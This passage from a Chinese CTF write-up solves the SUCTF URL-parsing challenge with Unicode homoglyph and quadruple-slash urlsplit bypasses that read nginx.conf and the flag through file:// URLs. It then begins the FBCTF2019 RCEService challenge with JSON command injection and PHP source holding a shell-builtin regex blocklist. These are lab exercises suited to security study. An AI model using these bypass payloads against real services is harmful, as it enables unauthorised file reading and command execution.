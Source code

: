 一些可用符号

```
U:ℭ    A:c      ascii:8493    ℭ可以替换suctf.cc中的c
U:Ⓣ    A:t      ascii:9417     Ⓣ可以替换suctf.cc中的t
```

那么传入payload：`xxx/getUrl?url=file://suctf.c℆sr/local/nginx/conf/nginx.conf`

![](https://i.loli.net/2021/07/24/AmTJloPxIUi2wuq.png)看到flag在/usr/fffffflag
利用同样的方法读取：`xxx/getUrl?url=file://suctf.c℆sr/fffffflag` 即可得到flag![](https://i.loli.net/2021/07/24/KEDd9HCboB8QS74.png)

#### 利用urlunsplit

urlunsplit会将我们传入的url进行分割
如：`http://xxx.com` 经`list(parse.urlsplit(url))`变成 `['http', 'xxx.com', '', '', '']`，也就是会去掉//
那么传入`http:////xxx.com`就会得到`['http', '', '//xxx.com', '', '']`即解析域名（host）处为空，也就可以绕过前两次上述对host的判断；
然后经urlunsplit又会变成`http://xxx.com`

由此得到payload：

```
xxx/getUrl?url=file:////suctf.cc/usr/local/nginx/conf/nginx.conf
xxx/getUrl?url=file:////suctf.cc/usr/fffffflag
```

## 2021.7.25

### [FBCTF2019]RCEService

要求输入json格式的命令；[JSON 数据格式 - SkySoot - 博客园](https://www.cnblogs.com/skysoot/archive/2012/04/17/2453010.html)![](https://i.loli.net/2021/07/25/UzuRmfqvIbEwl9h.png)

传入一个键值对：`{"cmd":"ls"}`，即可执行命令，会看到当前目录仅1个index.php
fuzz可以看到ban了很多东西，然后看了wp不懂源码怎么找到的。。都说是网上来的

```php
<?php
# 利用putenv编辑环境变量
putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```
